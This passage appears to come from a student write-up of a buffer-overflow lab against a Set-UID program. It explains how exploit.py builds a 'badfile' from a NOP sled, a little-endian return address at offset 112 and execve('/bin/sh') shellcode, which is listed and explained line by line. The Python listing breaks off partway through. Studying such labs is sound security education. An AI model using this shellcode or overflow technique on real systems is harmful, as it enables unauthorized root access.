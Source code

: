To generate the "<code>badfile</code>" using <code>exploit.py</code>, an array of size $517$ bytes is created and filled with <code>0x90</code> (the <code>NOP</code> instruction). Since <code>gdb</code> may push some additional data onto the stack at the beginning, causing the stack frame to be allocated deeper than it would be when the program executes directly, the first address that we can jump to may be higher than <code>$ebp + 8</code>. Here I choose <code>$ebp + 120</code>. The return address field starts from offset $112$ and ends at offset $116$ (not including $116$), i.e., <code>content[112:116]</code>. The x86 architecture uses the little-endian order, so in Python, when putting a $4$-byte address into the memory, <code>byteorder='little'</code> is used to specify the byte order.

At the end of the "<code>badfile</code>", a bunch of shellcode is included, the aim of which is to use the <code>execve()</code> system call to run <code>/bin/sh</code>. The corresponding program is presented in [Task 1](#task-1-getting-familiar-with-shellcode). Registers <code>%eax</code>, <code>%ebx</code>, <code>%ecx</code>, <code>%edx</code> should be configured correctly. A system call is executed using the instruction <code>int $0x80</code>.

```yaml
"\x31\xc0"      # xorl  %eax, %eax
"\x50"          # pushl %eax
"\x68""//sh"    # pushl $0x68732f2f
"\x68""/bin"    # pushl $0x6e69622f
"\x89\xe3"      # movl  %esp, %ebx
"\x50"          # pushl %eax
"\x53"          # pushl %ebx
"\x89\xe1"      # movl  %esp, %ecx
"\x99"          # cdq
"\xb0\x0b"      # movb  $0x0b, %al
"\xcd\x80"      # int   $0x80
```

- Line 1: Using XOR operation on <code>%eax</code> will set <code>%eax</code> to zero without introducing a zero in the code.
- Line 2: Push a zero onto the stack, which marks the end of the "<code>/bin/sh</code>" string.
- Line 3: Push "<code>//sh</code>" onto the stack (double slash, treated by the system call as the same as the single slash, is used because $4$ bytes are needed for instruction).
- Line 4: Push "<code>/bin</code>" onto the stack. The stack pointer <code>%esp</code> now points to the beginning of the string.
- Line 5: Move <code>%esp</code> to <code>%ebx</code>.
- Line 6: Construct the second item of the <code>name</code> array.
- Line 7: Form the first entry of the <code>name</code> array.
- Line 8: Save the value of <code>%esp</code> to <code>%ecx</code>. Now the <code>ecx</code> register contains the address of the <code>name</code> array.
- Line 9: Basically, the instruction copies the sign bit of the value in <code>%eax</code> into every bit position in <code>%edx</code>, sets <code>%edx</code> to zero.
- Line 10: Save the system call number ($11$ for <code>execve()</code>) in the <code>eax</code> register (<code>%al</code> represents the lower $8$ bits of the <code>eax</code> register, the higher bits are still zero).
- Line 11: Executes the system call. <code>int</code> means interrupt, which transfers the program flow to the interrupt handler.

The modified <code>exploit.py</code> program is listed below:

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0"
  "\x50"
  "\x68""//sh"
  "\x68""/bin"
  "\x89\xe3"
  "\x50"
  "\x53"
  "\x89\xe1"
```

[^1]: See "Daniel P. Bovet and Marco Cesati, *Understanding the Linux Kernel, Third Edition*, O'Reilly, 2006."
[^2]: A privileged program is one that can give users extra privileges beyond that are already assigned to them. A Set-Root-UID program is a privileged program because it allows users to gain the root privilege during the execution of the programs. For Set-UID programs in UNIX and UNIX-like operating systems, which stands for **set user ID on execution**, the effective <code>uid</code> is the owner of the program, while the real <code>uid</code> is the user of the program. Windows does not have the notion of Set-UID. A different mechanism is used for implementing privileged functionality. A developer would write a privileged program as a service and the user sends the command line arguments to the service using Local Procedure Call.
[^3]: Continue to the next source line in the current (innermost) stack frame. This is similar to <code>step</code>, but function calls that appear within the line of code are executed without stopping. Execution stops when control reaches a different line of code at the original stack level that was executing when you gave the <code>next</code> command.